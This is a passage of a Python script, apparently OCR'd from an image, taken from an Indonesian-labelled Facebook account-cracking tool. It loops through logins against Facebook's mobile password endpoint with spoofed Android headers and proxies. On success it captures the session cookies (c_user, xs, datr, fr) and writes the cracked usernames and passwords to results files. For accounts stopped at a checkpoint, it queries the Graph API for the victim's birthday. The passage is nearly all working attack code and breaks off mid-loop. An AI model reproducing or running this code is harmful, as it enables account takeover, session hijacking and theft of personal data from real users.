                 heade={'Host': cebok,'cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://'+cebok,'content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://'+cebok+'/login/device-based/password/?uid='+user+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
                po = session.post('https://'+cebok+'/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
                if "c_user" in session.cookies.get_dict():
                    cooz = session.cookies.get_dict()
                    coki = 'datr=' + cooz['datr'] + ';' + ('c_user=' + cooz['c_user']) + ';' + ('fr=' + cooz['fr']) + ';' + ('xs=' + cooz['xs'])
                    if "t" in Apk:
                        print('\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N))
                        print(f'\r {H}Cookie   : {coki}\n')
                    elif "y" in Apk:
                        print(f'\r %sOK %s               \n Username : %s\n Password : %s%s'%(H,waktu,user,pw,N))
                        print(f'\r {H}Cookie   : {coki}')
                    wrt = '[YUSEP-OK] %s • %s' % (user,pw)
                    ok.append(wrt)
                    cek_apk(session,coki)
                    open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    try:
                        tokenz = open('.token.txt').read()
                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']
                        month, day, year = cp_ttl.split('/')
                        month = bulan_ttl[month]
                        print('\r %sYUSEP-CP %s               \n Username : %s\n Password : %s\n Tanggal Lahir : %s %s %s%s\n'%(K,waktu,user,pw,day,month,year,N))
                        wrt = '[YUSE-CP] %s • %s • %s %s %s' % (user,pw,day,month,year)
                        cp.append(wrt)
                        open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                        break
                    except (KeyError, IOError):
                        month = ''
                        day   = ''
                        year  = ''
                    except:pass
                    print('\r %sYUSEP-CP %s               \n Username : %s\n Password : %s%s\n'%(K,waktu,user,pw,N))
                    wrt = '[YUSEP-CP] %s • %s' % (user,pw)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                else:
                    continue
                #time.sleep(31)
            loop+=1
        except requests.exceptions.ConnectionError: